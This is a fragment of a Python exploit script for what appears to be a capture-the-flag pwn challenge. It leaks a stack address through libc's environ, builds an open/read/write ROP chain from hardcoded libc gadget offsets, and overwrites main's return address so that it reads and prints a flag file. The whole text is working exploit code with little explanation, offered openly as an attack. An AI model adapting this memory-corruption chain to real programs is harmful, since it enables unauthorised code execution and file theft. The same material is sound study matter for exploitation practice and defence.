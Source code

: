 ```python

# https://github.com/Naetw/CTF-pwn-tips#leak-stack-address
def leak_stack():
    global stack_addr
    environ = libc_base + 2028256
    print("environ: ", hex(environ))
    
    tmp = read_primitives(environ)
    idx = tmp.index(b"msg: ") + 5
    stack_addr = u64(tmp[idx: idx+6].ljust(8, b"\x00")) 
    print("stack_addr: ",hex(stack_addr))
   

def set_rop():
    main_ret_addr = stack_addr - 256

    rop_gadgets = b"".join(map(lambda x:p64(x), [
        libc_base + 0x26b72, # pop rdi ; ret 
        libc_base + 2011136, # "./flag"
        libc_base + 0x27529, # pop rsi ; ret 
        0,
        libc_base + 1117776, # open

        libc_base + 0x26b72, # pop rdi ; ret 
        3,                   # fd of ./flag
        libc_base + 0x27529, # pop rsi ; ret 
        libc_base + 2011136, # buf
        libc_base + 0x162866,  # pop rdx ; pop rbx ; ret
        0x123,
        0x123,
        libc_base + 1118512, # read

        libc_base + 0x26b72, # pop rdi ; ret 
        1,                   # FD_STDOUT
        libc_base + 0x27529, # pop rsi ; ret 
        libc_base + 2011136, # buf
        libc_base + 0x162866,  # pop rdx ; pop rbx ; ret
        0x123,
        0x123,
        libc_base + 1118672, # write
    ]))
    print("main frame's return address: ",hex(main_ret_addr))
    print("buffer: ", hex(libc_base + 2011136))
    write_primitives(main_ret_addr, rop_gadgets)
    if not local:
        write_primitives(libc_base + 2011136, b"/home/logger/flag\x00")
    else:
        write_primitives(libc_base + 2011136, b"./flag\x00")



def run_rop():
    my_bye()

leak_heap_addr()
init_primitives()
leak_libc_addr()
leak_stack()
set_rop()
run_rop()
print(re.search(b"FLAG{.*}", p.recvall()).group(0).decode())
if local:
    gdb.attach(p)
```